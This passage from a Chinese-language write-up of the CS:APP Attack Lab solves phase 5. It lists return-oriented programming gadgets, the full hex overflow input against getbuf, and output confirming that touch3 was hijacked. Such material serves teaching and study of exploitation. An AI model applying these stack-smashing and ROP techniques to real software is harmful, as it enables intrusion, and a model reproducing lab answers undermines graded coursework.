	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

## 五、PHASE5

PHASE5 要求调用 touch3 函数，并且传入 cookie 字符串作为参数。本题的解题思路为，先取得栈顶指针的位置，然后取出存在栈中得偏移量的值，接着通过 **`lea (%rdi,%rsi,1),%rax`** 得到 cookie 的地址，将 cookie 字符串的地址传给 %rdi，最后调用 touch3 函数。

完整的注入代码如下所示：

```c{.line-numbers}
// 地址为 0x401a06
movq  %rsp, %rax
ret
// 地址为 0x4019a2
movq  %rax, %rdi
ret
// 地址为 0x4019ab
popq  %rax
nop
ret
// 地址为 0x4019dd
movl  %eax, %edx
nop
ret
// 地址为 0x401a34
movl  %edx, %ecx
cmpb  %cl, %cl
ret
// 地址为 0x401a13
movl  %ecx, %esi
nop
nop
ret
// 地址为 0x4019d6
lea  (%rdi, %rsi, 1), %rax
ret
// 地址为 0x4019a2
movq  %rax, %rdi
ret
```

getbuf 函数的栈帧如下所示:

<div align="center">
  
</div>

根据上图的栈帧，写出输入序列：

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
50 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61
```

运行得到的结果如下，成功调用 touch3 函数，并且传入 cookie 字符串地址作为参数：

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ cat rtarget02.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 50 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 35 39 62 39 39 37 66 61 
```